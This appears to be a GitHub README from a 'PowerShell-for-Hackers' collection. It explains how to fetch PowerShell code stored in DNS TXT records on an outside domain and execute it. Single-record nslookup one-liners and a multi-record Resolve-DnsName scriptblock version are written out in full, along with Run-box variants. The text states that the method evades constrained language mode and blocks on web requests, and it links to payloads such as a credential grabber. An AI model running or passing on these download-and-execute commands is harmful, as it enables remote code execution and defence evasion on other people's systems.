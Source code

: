 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#Commands">The Commands</a></li>
    <li><a href="#Examples">Examples</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# NS-Lookup

<p align="center">
      <a href="https://youtu.be/yn3t4e-dq2A">
        <img src=https://i.ytimg.com/vi/bPkBzyEnr-w/hqdefault.jpg width="300" alt="Python" />
      </a>
      <br>YouTube Tutorial	
</p>

## Description

This concept was introduced to me VIA my friend Alh4zr3d on [twitter](https://twitter.com/Alh4zr3d/status/1566489367232651264?s=20&t=JXNaXH1m76yL31VdSzlyNg)

This abuses the ability to pull down dns txt records from a website and execute the output 

This is especially helpful on systems using powershell constrained language and blocking Invoke-WebRequest or Invoke-Expression

## Commands

The following commands will be referencing the DNS TXT Records shown in the below image

<img src=https://github.com/I-Am-Jakoby/PowerShell-for-Hackers/raw/main/Assets/images/dns-records.png width="1200" alt="Python" />

### [Single TXT Record Execution]     

This nslookup example is how I was introduced to this concept originally. 

It is used to pull down a single TXT Record and execute it

`example` is referencing one of the DNS TXT Records in the image above. 

Replace it with the name of your TXT Record and replace the website URL with your own

This will execute a simple echo command to show it works 

```
powershell . (nslookup -q=txt example.iamjakoby.com)[-1]
```

More complex payloads are of course possible. 

Running the following example below will make you automatically subscribe to my youtube channel (you should try it)  

```
powershell . (nslookup -q=txt sub.iamjakoby.com)[-1]
```

### Take NOTE

The previous examples will only work when executed in a powershell window.

If it is your intention to use them in the Run Box they have to be modified as follows:

```
powershell "powershell . (nslookup -q=txt sub.iamjakoby.com)[-1]"
```

### [Multiple TXT Record Execution] 

The issue with pulling down a single TXT Record is they have a character limit of 255 

So in order to execute longer scripts you have to pull down multiple records and combine them 

The following modified verion I wrote will do just that 

`1..3` refers to DNS TXT Records 1, 2, and 3 in the image above. 

This will pull them down in that order and combine then execute them 

```
1..3|%{$p+=Resolve-DnsName "$_.iamjakoby.com." -Ty TXT |% S*s};& ([scriptblock]::Create($p))
```

Like this first example however there needs to be a modification to use it in the Run Box

The `" "` need to escaped with a `\` for it to function as intended

```
powershell 1..3|%{$p+=Resolve-DnsName \"$_.iamjakoby.com.\" -Ty TXT -EA 0|% S*s};& ([scriptblock]::Create($p))
```

<p align="right">(<a href="#top">back to top</a>)</p>


## Examples 

Listed below are payloads that can use one of these commands:

[Acid Burn](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-AcidBurn)

[JumpScare](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-JumpScare)

[WallPaper-Troll](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-Wallpaper-Troll)

[Credz-Plz](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-Credz-Plz)

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://youtube.com/c/IamJakoby?sub_confirmation=1">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/youtube-svgrepo-com.svg width="48" height="48" alt="C#" />
      </a>
      <br>YouTube
    </td>
    <td align="center" width="96">
      <a href="https://twitter.com/I_Am_Jakoby">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/twitter.png width="48" height="48" alt="Python" />
      </a>
      <br>Twitter
    </td>
    <td align="center" width="96">
      <a href="https://www.instagram.com/i_am_jakoby/">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/insta.png width="48" height="48" alt="Golang" />
      </a>
      <br>Instagram
    </td>
    <td align="center" width="96">
      <a href="https://discord.gg/MYYER2ZcJF">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/discord-v2-svgrepo-com.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>Discord
    </td>
  </tr>
</table>
</div>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)

***

[HOME-PAGE](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)

<p align="right">(<a href="#top">back to top</a>)</p>
